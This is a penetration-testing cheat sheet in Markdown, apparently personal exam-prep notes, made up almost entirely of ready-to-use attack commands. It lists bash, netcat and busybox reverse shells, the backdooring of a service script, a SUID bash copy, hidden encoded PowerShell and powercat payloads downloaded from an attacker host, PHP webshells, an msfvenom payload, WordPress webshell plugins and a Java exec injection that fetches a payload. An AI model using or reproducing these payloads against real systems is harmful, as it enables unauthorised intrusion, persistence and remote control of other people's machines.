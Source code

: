 # *Linux*
### bash reverse
```shell
/bin/bash -c "bash -i >& /dev/tcp/KALI_IP/LPORT 0>&1"
```
### busybox reverse
```shell
busybox nc KALI_IP 443 -e sh

# https://eins.li/posts/oscp-secret-sauce/
```
### nc
```shell
/path/nc KALI_IP LPORT -e /bin/bash
```
## .sh script reverse
```shell
# bash
echo "bash -i >& /dev/tcp/KALI_IP/443 0>&" >> /path/to/service.sh
chmod +x /path/to/service.sh

# nc
echo >> reverse.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc KALI_IP 443 >/tmp/f" >> /path/to/service.sh
chmod +x /path/to/service.sh
```
## copy bash w/ suid
```shell
cp /bin/bash /tmp && chmod +s /tmp/bash
```

# ***Windows***
## powershell encoded
```shell
# 1 KALI
python3 ps_encode.py

# 2 TARGET
powershell.exe -nop -w hidden -enc encoded_payload...
```
## powercat encoded
```shell
# 1 KALI
python3 cat_encode.py

# 2 TARGET
powershell.exe -nop -w hidden -enc encoded_payload...
```
## powercat manually typed
```shell
# 1 payload
IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP/resources/powercat.ps1');powercat -c KALI_IP -p 443 -e powershell

# 2 use as follows
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP/resources/powercat.ps1');powercat -c KALI_IP -p 443 -e powershell"
```
## nc.exe
```shell
C:\PATH\nc.exe KALI_IP LPORT -e powershell
```

# ***Web***
## php
### bash reverse
```php
<?php exec("/bin/bash -c bash -i >& /dev/tcp/KALI_IP/443 0>&1"); ?>
```
### simple webshell
```php
<?php echo system($_GET['cmd']); ?>
<?php echo passthru($_GET['cmd']); ?>
```
### simple webshell 2
```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
    }
?>
# located at /usr/share/webshells/php/simple-backdoor.php
```
### sincek reverse
```shell
# https://github.com/ivan-sincek/php-reverse-shell
```
### msfvenom
```shell
msfvenom -p php/reverse_php LHOST=`mip` LPORT=443 -f raw > reverse.php
```
### wordpress plugin
```shell
# POST
curl -X POST `tip`:`WPORT`/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php --data 'action=exec&cmd=id'

# GET (or use browser)
curl `tip`:`WPORT`/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php?action=exec&cmd=id

# https://github.com/p0dalirius/Wordpress-webshell-plugin
```
### wordpress plugin 2
```shell
https://github.com/wetw0rk/malicious-wordpress-plugin
```
## asp
### webshell
```shell
https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/webshell
```

## java
### runtime exec
```shell
${script:javascript:java.lang.Runtime.getRuntime().exec("wget http://KALI_IP/reverse -O /tmp/reverse")}
```

# ***upgrade shell***
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
^z

stty raw -echo;fg
```